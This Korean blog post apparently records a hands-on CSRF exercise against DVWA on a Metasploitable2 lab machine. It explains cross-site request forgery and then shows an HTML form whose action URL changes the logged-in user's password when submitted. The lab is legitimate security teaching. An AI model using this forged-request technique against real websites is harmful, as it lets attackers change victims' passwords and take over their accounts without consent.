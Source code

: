 ```yaml
---
title:  "DVWA 를 활용한 CSRF 실습"
excerpt: ""
categories: security
tags:
  - [csrf, web-security, metasploitable2, dvwa]

toc: true
toc_sticky: true
 
date: 2022-5-17
last_modified_at: 2022-5-17
---
```


#### CSRF (Cross Site Request Forgery : 교차 사이트 요청 위조)
* * *
- 공격 대상 : webserver
- Client의 권한을 이용해서 위조된 요청을 web server에 보내는 공격
- 대표적인 사례 : 자동 댓글달기, 좋아요 눌러지기, 비밀번호 변경, 회원 탈퇴 요청, 회원 승급 요청 등등
- 사용자들이 원하지 않았지만 스크립트의 소스 안에 공격자의 의도가 포함되어 있는 상태로 웹서버에 요청이 보내짐
- OWASP 2013년 버전에서는 8위였으나, 2017 버전에는 순위 밖으로 내려감(대응 방법이 많이 나와있어서 심각 수준이 내려감)

#### Metsploitable2 DVWA 실습
* * *
1. vwware-> metasploitable2 실행
2. web browser에서 metasploitable2의 아이피로 접근
3. dvwa 실행 admin / password
4. CSRF 탭에서 비밀번호 변경
![picture 12](/assets/images/20220517-092020.png){: .center}  
5. 개발자 도구에서 46~52 라인 확인
![picture 13](/assets/images/20220517-092404.png){: .center}  

```html
<form action="#" method="GET">Current password:<br>
		<input type="password" AUTOCOMPLETE="off" name="password_current"><br>    New password:<br>
    <input type="password" AUTOCOMPLETE="off" name="password_new"><br>
    Confirm new password: <br>
    <input type="password" AUTOCOMPLETE="off" name="password_conf">
    <br>
    <input type="submit" value="Change" name="Change">
</form>
```
6. 비밀번호 변경했을 때 주소를 복사해서 #에 다가 삽입

```html
<form action="http://192.168.5.128/dvwa/vulnerabilities/csrf/?password_current=password&password_new=123456&password_conf=123456&Change=Change#" method="GET">Current password:<br>
		<input type="password" AUTOCOMPLETE="off" name="password_current"><br>    New password:<br>
    <input type="password" AUTOCOMPLETE="off" name="password_new"><br>
    Confirm new password: <br>
    <input type="password" AUTOCOMPLETE="off" name="password_conf">
    <br>
    <input type="submit" value="Change" name="Change">
</form>
```

7. 위 내용을 html 파일로 만들어서 실행.

![picture 14](/assets/images/20220517-093611.png){: .center}

1. change를 누르면 비밀번호 변경되고, 로그인된 상태로 웹사이트로 진입
2. logout 하고 변경된 비밀번호로 로그인 되는지 확인
